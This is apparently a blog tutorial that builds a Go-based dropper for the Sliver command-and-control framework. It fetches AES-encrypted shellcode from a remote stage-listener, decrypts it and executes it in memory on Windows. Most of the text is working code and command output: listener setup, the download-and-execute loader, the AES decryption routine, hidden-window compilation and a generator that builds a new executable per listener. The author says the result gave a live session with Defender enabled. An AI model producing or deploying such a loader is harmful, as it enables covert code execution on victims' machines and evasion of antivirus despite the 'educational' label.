




> 	This blog is for educational purpose only.

# Plan
We gonna create a dropper that
1. Download shellcode from http(s) stage-listener
2. Decrypt shellcode
3. Run shellcode using CreateThread method
4. Write code to compile above code for us

## Stage-listener
If you're not familiar with sliver's stage-listener, it will serve the shellcode/executable using tcp/http. 

```sh
sliver > profiles new --http https://192.168.122.62:443 -d --skip-symbols --format shellcode https-shellcode
[*] Saved new implant profile https-shellcode
```
- Start stage-listener
```bash
sliver > stage-listener --url https://192.168.122.62:443 --profile https-shellcode

[*] No builds found for profile https-shellcode, generating a new one
[*] Sliver name for profile https-shellcode: INNOVATIVE_ROUGH
[*] Job 1 (https) started
```
- Download shellcode from listener
Sliver serves shellcode in http(s) using file extension of `.woff` by default, we use `a.woff` in this example
```
root# wget --no-check-certificate https://192.168.122.62/a.woff .

root# ls -lh a.woff
-rw-r--r-- 1 root root 11M Jul 25 13:37 a.woff

root# file a.woff
a.woff: data
```
## How to execute shellcode
Follow this [github](https://github.com/Ne0nd0g/go-shellcode.git), it provides us all example code to execute caculator's shellcode in various method

```
root# git clone https://github.com/Ne0nd0g/go-shellcode.git
root# cd go-shellcode
```

Let's first validate if one can work on windows, compile the classic `CreateThread` method

```
root:~/go-shellcode# GOOS=windows GOARCH=amd64 go build -o CreateThread.exe cmd/CreateThread/main.go
root:~/go-shellcode# ls -lh CreateThread.exe
-rwxr-xr-x 1 root root 2.5M Jul 25 13:46 CreateThread.exe
root:~/go-shellcode# file CreateThread.exe
CreateThread.exe: PE32+ executable (console) x86-64, for MS Windows, 15 sections
```

On windows, with defender off, execute the program we see a caculator pops up, showing this code works!



Reviewing the code of `CreateThread`, it first decode the hex and return `shellcode` which is `[]byte` type and an `errShellcode` which is `error` type 

``` go
// Pop Calc Shellcode
    shellcode, errShellcode := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")
    if errShellcode != nil {
	    log.Fatal(fmt.Sprintf("[!]there was an error decoding the string to a hex byte array: %s", errShellcode.Error()))
    }
...
```

The only thing left for us to execute out sliver's shellcode is to put our shellcode into this. Before changing the code, let's use golang to get shellcode first

## Download shellcode

Similar to `wget --no-check-certificate https://192.168.122.62/a.woff .` way to download our shellcode and output a `a.woff` file, we download shellcode from `https://192.168.122.62/a.woff` and output to file `shellcode.txt`

``` go
func main() {
    url := "https://192.168.122.62/a.woff"

    // ignore tls certficate error
	tr := &http.Transport{
		TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
	}
    // http get download
	client := &http.Client{Transport: tr}
	resp, err := client.Get(url)
	if err != nil {
		fmt.Println(err)
	}
    // body will be shellcode
	body, err := io.ReadAll(resp.Body)
	if err != nil {
		fmt.Println(err)
	}
    // write the shellcode to a file
    err = os.WriteFile("shellcode.txt", body, 0644)
    if err != nil {
        fmt.Println(err)
    }
}

```

Let's run this program and compare the output with the shellcode we download using `wget`

```
# Init project named blogcode
root# go mod init blogcode

root# go run main.go
root# ls -lh shellcode.txt
-rw-r--r-- 1 root root 11M Jul 25 14:16 shellcode.txt
root# diff shellcode.txt a.woff -s
Files shellcode.txt and a.woff are identical
```

## Download and execute

Great! now we have shellcode in our code with type `[]byte` for us to use! Next step is to run the shellcode instead of writing them to file. We need to copy the previous `CreateThread`'s code to our project and change it

```
root@ubuntu:~/Documents/blogcode# cp ../go-shellcode/cmd/CreateThread/main.go run/CreateThread.go
root@ubuntu:~/Documents/blogcode# tree
.
├── go.mod
├── main.go
└── run
    └── CreateThread.go

2 directories, 3 files
```

Remove debugging code and change the function name of `CreateThread.go` to `ThreadRun`, now we can call the function `ThreadRun()` and put our shellcode into this function!

- `run/CreateThread.go`

``` go
package run

...

func ThreadRun(shellcode []byte) {
        // Pop Calc Shellcode
        // shellcode, errShellcode := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")

        addr, errVirtualAlloc := windows.VirtualAlloc(uintptr(0), uintptr(len(shellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)

        if errVirtualAlloc != nil {
                log.Fatal(fmt.Sprintf("[!]Error calling VirtualAlloc:\r\n%s", errVirtualAlloc.Error()))
        }

        if addr == 0 {
                log.Fatal("[!]VirtualAlloc failed and returned 0")
        }
...
```

- `main.go`
Import the package of `CreateThread.go`, Delete the write to file part and replace with single line of code `run.ThreadRun(body)`
``` go
import (
	...
	blodcode/run
)

...
// body will be shellcode
        body, err := io.ReadAll(resp.Body)
        if err != nil {
                fmt.Println(err)
        }

        run.ThreadRun(body)
```

- Compile and start http server
``` txt
root@ubuntu:~/Documents/blogcode# GOOS=windows GOARCH=amd64 go build -o test.exe .
run/CreateThread.go:9:2: no required module provides package golang.org/x/sys/windows; to add it:
        go get golang.org/x/sys/windows
        
root@ubuntu:~/Documents/blogcode# go mod tidy
go: finding module for package golang.org/x/sys/windows
go: found golang.org/x/sys/windows in golang.org/x/sys v0.22.0

root@ubuntu:~/Documents/blogcode# GOOS=windows GOARCH=amd64 go build -o test.exe .
root@ubuntu:~/Documents/blogcode# ls -lh test.exe
-rwxr-xr-x 1 root root 7.1M Jul 25 14:33 test.exe
root@ubuntu:~/Documents/blogcode# file test.exe
test.exe: PE32+ executable (console) x86-64, for MS Windows, 15 sections

root@ubuntu:~/Documents/blogcode# updog 
[+] Serving /root/Documents/blogcode...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.122.62:9090

```

- Test it on windows

We download it from our server, run it and we got our session back with defender on, meaning the defender's static analysis didn't flag us, great!



## AES support

Start stage-listener with AES encryption

- `--aes-encrypt-key` is to encrypt the shellcode
- `--aes-encrypt-iv` is for obfuscation, note: `iv` will be the first 16 bits in front of the http body. Therefore we only need to remember the `key` and shellcode will be behind the `iv`

```
sliver > stage-listener -u https://192.168.122.62:443 -p https-shellcode --aes-encrypt-key abcdefghijklmnop --aes-encrypt-iv AAAAAAAAAAAAAAAA

[*] Sliver name for profile https-shellcode: INNOVATIVE_ROUGH
[*] Job 4 (https) started
[*] AES KEY: abcdefghijklmnop
[*] AES IV: AAAAAAAAAAAAAAAA
```

Let's download the shellcode from stager and validate the first 16bits is truely our `iv` (16 As)

```
# wget --no-check-certificate https://192.168.122.62/c.woff .
# head --bytes 72 c.woff | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: d181 a075 fd31 c753 1774 d30b 3e93 f691  ...u.1.S.t..>...
00000020: e23c f099 7ad8 0743 2e59 5a4f 16db 2ebe  .<..z..C.YZO....
00000030: e907 9227 5572 d4de 88ad e655 15d7 529d  ...'Ur.....U..R.
00000040: 0b87 c0eb 2c4d 1e4f                      ....,M.O
```

What's left for us is to add Decryption function, get `iv` and encrypted shellcode
### Decryption 

On golang's official doc, it provides us with [example code](https://pkg.go.dev/crypto/cipher#NewCBCEncrypter), with a little bit simplify, we create our `aes.go` in `run` folder as follows

``` go
package run

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
)

func Decrypt(data, key, iv []byte) []byte {
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}
	fmt.Println("blocksize: ", block.BlockSize())
	fmt.Println("ivsize: ", len(iv))
	mode := cipher.NewCBCDecrypter(block, iv)
	mode.CryptBlocks(data, data)
	return data
}
```

We only need to add two line here

- Our key
- Decrypt, first 16 bits of `body` is the `iv`, all after 16bits is our shellcode, neat!

``` go
	key := []byte("abcdefghijklmnop")
	...
	body, err := io.ReadAll(resp.Body)
	if err != nil {
		fmt.Println(err)
	}

	sc := run.Decrypt(body[16:], key, body[:16])
	run.ThreadRun(sc)
```

Now let's compile and test it again see if magic happens!



## Automate this thing

Now we have our dropper with aes support, however I'm too lazy to change the `url` and `key` into the code everytime I start a new stage-listener, and I have to compile it manually. So let's use `template` to automate this thing

I want my program to

- Input `url` and `key` 
- Compile the code for me

### Input

I prefer the flag library from project discovery. Now let's create a new folder for our automation

```
root@ubuntu:~/Documents# mkdir dropper
root@ubuntu:~/Documents# cd dropper/
root@ubuntu:~/Documents/dropper# go mod init dropper
go: creating new go.mod: module dropper
root@ubuntu:~/Documents/dropper# touch main.go

// create a folder named out to holds our generated executable
root@ubuntu:~/Documents/dropper# mkdir out

// Copy needed functions from previous project
root@ubuntu:~/Documents/dropper# cp -r ../blogcode/run .
```

Let's get all our command line flag ready

``` go
package main

import (
	"fmt"
	"log"

	"github.com/projectdiscovery/goflags"
)
// struct that holds our inputs
type options struct {
	Url  string
	Key  string
	Save string
}

func main() {
	opt := &options{}

	flagSet := goflags.NewFlagSet()
	flagSet.SetDescription("Generate dropper for http(s) stage-listener")

	flagSet.StringVarP(&opt.Url, "url", "u", "", "eg:https://example.com stage-listener url")
	flagSet.StringVarP(&opt.Key, "key", "k", "", "aes encrypt key")
	// By default we generate our executeable into out folder
	// So don't forget to create one!
	flagSet.StringVarP(&opt.Save, "save", "s", "out/out.exe", "file location to save (Default ./out/out.exe)")

	if err := flagSet.Parse(); err != nil {
		log.Fatalf("Could not parse flags: %s\n", err)
	}
	// the url will be https://example.com 
	// We will add the file extension in here
	opt.Url = opt.Url + "/font.woff"

	if opt.Url == "" || opt.Key == "" {
		log.Fatalf("Need both url and key!\n")
	}

	fmt.Printf("[+] Request: %s\n", opt.Url)
	fmt.Printf("[+] AES Key: %s\n", opt.Key)
	fmt.Printf("[+] Binary : %s\n", opt.Save)
}
```

This will be how it looks like



### Template

We have our `url` and `key` , next is to write them into previous `main.go`. To do this, we need `html/template` library to help us

Create a new folder and copy previos `main.go` into here

```
root@ubuntu:~/Documents/dropper# mkdir template
root@ubuntu:~/Documents/dropper# cp ../blogcode/main.go template/main.tmpl
root@ubuntu:~/Documents/dropper# tree
.
├── go.mod
├── go.sum
├── main.go
└── template
    └── main.tmpl
```

Change two lines of `main.tmpl`, this format will be recognized the `template` library we use, it will search for `Url` and `Key` variable the replace them with our input

```
- url := "https://192.168.122.62/font.woff"
- key := []byte("sAYx2sgB3QglfexI")
=>
+ url := "{{ .Url }}"
+ key := []byte("{{ .Key }}")
```

Update `main.go`  to use template to replace the variable 

``` go
	...
	// tmpl will register our main.tmpl file
	tmpl, err := template.New("main.tmpl").ParseFiles("./template/main.tmpl")
	if err != nil {
		panic(err)
	}
	// After modified the template file, we put code into template/main.go
	f, err := os.Create("./template/main.go")
	if err != nil {
		panic(err)
	}
	defer f.Close()
	// Change the main.go with the input stored in out opt struct
	if err := tmpl.Execute(f, opt); err != nil {
		panic(err)
	}
}
```

### Compile

To compile the code we use this in our command line

- `-trimpath`: get rid of some code in our generated executable
- `-ldflags -H=windowsgui`: hide pop up cmd window

```
GOOS=windows GOARCH=amd64 go build -trimpath -ldflags -H=windowsgui -o golang.exe
template/main.go
```

We need to convert this into golang using `os/exec` library, append these after your code, it should explain themselves

``` go
cmd := exec.Command("go", "build", "-trimpath", "-ldflags", "-H=windowsgui", "-o", opt.Save,
	"template/main.go")
cmd.Env = append(cmd.Environ(), "GOOS=windows", "GOARCH=amd64")
_, err = cmd.Output()
if err != nil {
	log.Fatal(err)
}
```

## Outcome

Here's a stupid video showcasing what we have done in this blog, enjoy!




